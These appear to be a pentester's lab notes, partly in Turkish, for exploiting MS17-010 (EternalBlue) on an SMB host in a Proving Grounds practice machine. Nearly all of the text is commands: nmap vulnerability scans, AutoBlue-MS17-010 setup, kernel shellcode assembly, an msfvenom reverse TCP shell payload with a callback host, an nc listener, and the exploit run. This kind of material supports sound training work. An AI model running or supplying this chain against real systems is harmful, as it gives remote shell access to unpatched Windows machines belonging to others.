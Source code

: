 **Service and Vulnerability Detection**
```bash
nmap -p445 -sV 10.10.2.130
nmap -p445 -sV --script 'smb-vuln-**' 10.10.2.130
```

![](Pasted%20image%2020220125051031.png)

**Operating System Detection**
```bash
$ crackmapexec smb 10.10.2.130 -u foo -p bar
```

![](Pasted%20image%2020220125051158.png)

**Installation AutoBlue-MS17-010**
```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010
virtualenv --python=python2.7 venv
source venv/bin/activate
pip install -r requirements.txt
```

32 bit ve 64 bit için ayrı ayrı shellcode üretmek gerekiyor. Ama öncelikle kernel binary dosyalarını oluşturmalıyız. ( shell_prep.sh )

```bash
$ nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin
$ nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

**PG-Practice Machine: Internal**
```bash
# Windows Server (R) 2008 Standard 6001 Service Pack 1 (32 bit)
$ nmap -p139,445 --script 'smb-vuln-*' $IP
$ msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.49.59 LPORT=445

$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ nc -lnvp 445
$ python3 eternalblue_exploit7.py $IP shellcode/sc_x86.bin
```

![](Pasted%20image%2020220125052639.png)